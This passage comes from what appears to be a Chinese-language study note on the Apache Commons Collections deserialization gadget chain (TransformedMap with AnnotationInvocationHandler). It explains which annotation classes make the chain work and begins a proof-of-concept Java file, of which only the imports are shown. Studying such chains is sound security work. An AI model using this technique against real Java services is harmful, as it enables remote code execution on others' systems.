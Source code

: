 Override中没有成员方法，get的时候就拿不到任何值，得到的`memberType`就为空：

![image-20220428192040274](README/image-20220428192040274.png)

那就找几个有成员方法的：有很多，可以传`Retention.class，Target.class`等，这些类里面都成员方法：

![image-20220428192240521](README/image-20220428192240521.png)

![image-20220428192258851](README/image-20220428192258851.png)

并不是这样就完了，还需要put传键名为上面找到某个类的方法名：`innerMap.put("value", "xxxx");`

最终POC：

```java
package com.yutao.day8;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
//import sun.reflect.annotation.AnnotationInvocationHandler;
//import javax.xml.transform.Transformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
```